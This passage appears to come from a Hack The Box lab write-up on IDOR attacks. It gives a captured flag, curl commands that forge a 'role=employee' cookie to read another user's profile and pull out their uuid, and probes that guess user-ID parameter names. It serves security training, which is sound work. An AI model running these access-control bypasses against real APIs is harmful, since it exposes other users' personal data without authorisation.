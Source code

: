 **🎯 Flag:** `HTB{h45h1n6_1d5_w0n7_570p_m3}`

### Lab 3: API Information Disclosure

**Target:** `http://94.237.54.192:58374`

**Objective:** Read details of user with `uid=5` and find their `uuid` value

**Solution:**
```bash
# Test API information disclosure
curl -H "Cookie: role=employee" \
     "http://94.237.54.192:58374/profile/api.php/profile/5"

# Alternative with verbose output
curl -v -H "Cookie: role=employee" \
       "http://94.237.54.192:58374/profile/api.php/profile/5"
```

**Expected Response:**
```json
{
    "uid": 5,
    "uuid": "[UUID_VALUE]",
    "role": "employee", 
    "full_name": "[NAME]",
    "email": "[EMAIL]",
    "about": "[DESCRIPTION]"
}
```

**Automated UUID Extraction:**
```bash
# Extract just the UUID value
curl -s -H "Cookie: role=employee" \
     "http://94.237.54.192:58374/profile/api.php/profile/5" | \
     jq -r '.uuid'

# Or with grep if jq not available
curl -s -H "Cookie: role=employee" \
     "http://94.237.54.192:58374/profile/api.php/profile/5" | \
     grep -oP '"uuid":\s*"\K[^"]*'
```

---

## Advanced IDOR Techniques

### API Parameter Discovery

**Hidden Parameter Testing:**
```bash
# Test common parameter names
curl "http://target.com/api/user?id=1"
curl "http://target.com/api/user?user_id=1"  
curl "http://target.com/api/user?uid=1"
curl "http://target.com/api/user?userid=1"
```
